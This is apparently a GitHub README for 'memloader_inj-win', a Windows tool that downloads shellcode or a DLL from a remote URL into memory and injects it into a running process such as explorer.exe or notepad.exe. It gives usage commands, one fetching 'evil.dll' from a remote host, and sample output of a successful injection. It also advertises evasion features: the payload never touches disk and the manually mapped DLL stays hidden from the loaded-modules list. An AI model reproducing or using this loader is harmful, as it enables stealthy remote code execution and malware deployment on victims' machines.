 # memloader_inj-win
Inject remote shellcode or DLL file into process memory using FileMapping

DLL injection technique does not make use of the file map object at this time.

## Usage
``` ./memloader_inj-win.exe [process name] [url] ```

## Example
Raw shellcode is hosted on 127.0.0.1:8000 in a file named shellcode
``` ./memloader_inj-win.exe explorer.exe http://127.0.0.1:8000/shellcode ```

Payload is stored on remote linux server http server. 
The payload is downloaded to memory and injected into target process without touching disk!
The DLL is manually mapped so it will not appear in loaded Modules
``` ./memloader_inj-win.exe notepad.exe http://linux.host/evil.dll ```

Output:

```
Opening Process: notepad.exe with PID 34368 for injection
Downloading File...
Start address: 000001D475C70000
Parameters address: 000001D475C60000
Injected into process!
```


[Demo (YouTube)](https://youtu.be/6XtGsxcnGRs)

## Building

Open solution in Visual Studio. Must be built in release mode for stub builder to work properly.
